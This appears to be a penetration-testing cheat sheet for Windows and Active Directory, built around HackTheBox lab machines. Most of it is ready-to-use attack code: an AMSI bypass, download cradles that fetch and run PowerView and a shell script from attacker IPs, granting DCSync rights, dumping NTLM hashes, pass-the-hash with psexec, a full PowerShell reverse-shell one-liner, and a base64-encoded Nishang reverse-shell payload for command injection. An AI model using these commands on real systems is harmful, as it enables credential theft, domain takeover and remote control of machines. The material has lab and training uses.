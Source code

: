 # Windows

**Bypass AMSI**

**Import PowerView first**

```powershell
PS C:\Users\svc-alfresco\Documents> menu
[+] Bypass-4MSI
[+] D11-Loader
[+1 Donut-Loader
[+] Invoke-Binary
PS C:\Users\svc-alfresco\Documents> Bypass-4MST
[+] Patched! :D
PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).
downloadstring('http://10.10.14.6/PowerView.ps1')
```

**Add DCSync Rights**

```powershell
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

**GET NTLM Hashes for all domain users**

```bash
secretsdump.py htb/john@10.10.10.161
```

**Pass The Hash**

```bash
psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

**reverse shell.ps1**

```bash
$client = New-Object System.Net.Sockets.TCPClient("{LHOST}",{LPORT});$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,
0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.L
ength);$stream.Flush()};$client.Close()

A standard Powershell download cradle is used to execute the reverse shell. "START" is used so that the existing telnet session is not locked up. The /B parameter is specified so that a new window is not created for the shell, which has the effect that the incoming shell is able to use the full width of the screen, instead of being constrained to the telnet session display width.

START /B "" powershell -c IEX (New-Object
Net.Webclient).downloadstring('http://10.10.14.2/shell.ps1')
```

**Encoding a powershell reverse shell to base64**&#x20;

<pre class="language-bash"><code class="lang-bash">#This technique is useful for executing commands on a vulnerable Windows web service, 
#such as PRTG version 18.2.39, which is susceptible to command injection vulnerabilities
<strong>
</strong><strong>#Download the reverse shell from Nishang in https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
</strong>
#Encoding to base64
echo -n "IEX(new-objectnet.webclient).downloadstring('http://&#x3C;IP>/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0

#Configuring the reverse shell
echo 'Invoke-PowerShellTcp -Reverse -IPAddress &#x3C;IP> -Port &#x3C;PORT>' >> Invoke-PowerShellTcp.ps1

#send this encoded payload to webservice and just run to pop the shell:
&#x3C;whatever data> | powershell -enc &#x3C;base64 encoded payload>
</code></pre>
